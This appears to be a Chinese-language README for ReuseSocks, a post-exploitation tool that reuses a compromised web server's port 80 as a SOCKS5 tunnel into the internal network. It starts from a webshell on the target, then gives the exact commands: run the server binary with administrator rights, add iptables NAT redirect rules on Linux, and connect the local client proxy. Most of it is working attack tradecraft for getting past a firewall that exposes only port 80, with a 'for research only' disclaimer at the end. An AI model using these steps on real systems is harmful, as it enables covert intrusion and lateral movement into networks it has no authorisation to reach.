 ## 环境

目标：

​		外网只开放80端口

​		外网IP:www.test.com

​		内网IP:192.168.10.161

本机：

​		出口IP:36.11.14.121

通过webshell查看

```
netstat -nao
```

```
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       2240
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:902            0.0.0.0:0              LISTENING       7256
  TCP    0.0.0.0:912            0.0.0.0:0              LISTENING       7256
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       11252
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       6016
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       2000
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1896
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       2824
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       6236
  TCP    0.0.0.0:49673          0.0.0.0:0              LISTENING       1964
  TCP    0.0.0.0:55869          0.0.0.0:0              LISTENING       1144
  TCP    0.0.0.0:55889          0.0.0.0:0              LISTENING       16592
  TCP    192.168.10.161:80     36.11.14.121:2343      ESTABLISHED     804
  TCP    127.0.0.1:4709         0.0.0.0:0              LISTENING       1144
  TCP    127.0.0.1:8680         0.0.0.0:0              LISTENING       14264
  TCP    127.0.0.1:49962        0.0.0.0:0              LISTENING       4608
  TCP    127.0.0.1:50010        0.0.0.0:0              LISTENING       8208
  TCP    127.0.0.1:53197        0.0.0.0:0              LISTENING       17260
  TCP    [::]:135               [::]:0                 LISTENING       2240
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:7680              [::]:0                 LISTENING       6016
  TCP    [::]:49664             [::]:0                 LISTENING       2000
  TCP    [::]:49665             [::]:0                 LISTENING       1896
  TCP    [::]:49666             [::]:0                 LISTENING       2824
  TCP    [::]:49668             [::]:0                 LISTENING       6236
  TCP    [::]:49673             [::]:0                 LISTENING       1964
  TCP    [::]:55869             [::]:0                 LISTENING       1144
  TCP    [::]:55889             [::]:0                 LISTENING       16592
  TCP    [::1]:51194            [::]:0                 LISTENING       3828

```

我们出口IP`36.11.14.121`-> `192.168.10.161:80`

## 使用

### Windows

`help`

```cmd
C:\Users\Desktop>ReuseSocks_Server.exe ReuseSocks_Server.exe
ReuseSocks_Server.exe [lhost] [reuse prot] [md5(myip)]
myip is we link to its md5(IP)
it cannot reuse service port like IIS,RDP, but can reuse Mysql,Apache and so on
Use it carefully and bear the consequences.
```

#### 开启端口复用SOCKS5

目标系统执行服务端，注意使用管理员权限执行

```
C:\Users\Desktop>ReuseSocks_Server.exe [lhost]=192.168.10.161 [reuse prot]=80 [md5(myip)]=MD5(192.168.10.1)
```

```cmd
C:\Users\Desktop>ReuseSocks_Server.exe 192.168.10.161 80 1bac027cf67efcc4d10125724221fc48
```

本地执行客户端

```cmd
C:\Users\Desktop>ReuseSocks_client.exe -h
Usage of ReuseSocks_client.exe:
  -listen string
        listen loacl scoks5 (default "0.0.0.0:1080")
  -remote string
        Forward Remote Server eg: 192.168.0.1:80
```

连接目标（默认监听本地1080端口）

```cmd
C:\Users\Desktop>ReuseSocks_client.exe -remote 192.168.10.161:80
```

配置socks5代理为:`127.0.0.1:1080`即可

注意事项

​		当服务端启动之后请2分钟之内使用配置的出口IP(myip)访问一下,否则服务端会退出。

​		默认一个小时服务端程序退出，以免未知原因导致业务端口不能访问。

### linux

`help`

```bash
root@ReuseSock:/opt/lcx# ./ReuseSocks_Server ./ReuseSocks_Server 
./ReuseSocks_Server [Listen prot]
Use it carefully and bear the consequences.
```

#### 开启端口复用

**添加**

将来自[you_ip] IP地址的TCP流量，如果目标端口是80，将其重定向到端口ReuseSocks_Server监听的端口

```bash
sudo iptables -t nat -A PREROUTING -p tcp -s [you_ip] --dport 80[web端口] -j REDIRECT --to-port [ReuseSocks_Server监听的端口]
```

删除

```
sudo iptables -t nat -D PREROUTING -p tcp -s [you_ip] --dport 80[web端口] -j REDIRECT --to-port [ReuseSocks_Server监听的端口]
```

eg:

```
sudo iptables -t nat -A PREROUTING -p tcp -s 192.168.10.1 --dport 80 -j REDIRECT --to-port 1081
```

```bash
root@ReuseSock:/opt/lcx# ./ReuseSocks_Server 1081
2023/07/26 17:54:53 Listen on 0.0.0.0:1081
```

本地执行客户端

```cmd
C:\Users\Desktop>ReuseSocks_client.exe -h
Usage of ReuseSocks_client.exe:
  -listen string
        listen loacl scoks5 (default "0.0.0.0:1080")
  -remote string
        Forward Remote Server eg: 192.168.0.1:80
```

连接目标（默认监听本地1080端口）

```cmd
C:\Users\Desktop>ReuseSocks_client.exe -remote 192.168.10.161:80
```

配置socks5代理为:`127.0.0.1:1080`即可

注：使用完之后记得删除规则


ReuseSocks_client.exe sha256 d93fadd904e7a2256157f6d1d8361755d713b83eaaa042d65e28032230e027f6

ReuseSocks_Server sha256 6d465498376fd8449765dafc4584c3224aca1f0fa999d19f6524719a6d9cef4d

ReuseSocks_Server.exe sha256 101404786f902cb9538cb0247e11cd54d29b50ea4b86961eb1a1931344d8cd58

仅供技术研究使用，请勿用于非法用途，否则后果作者概不负责
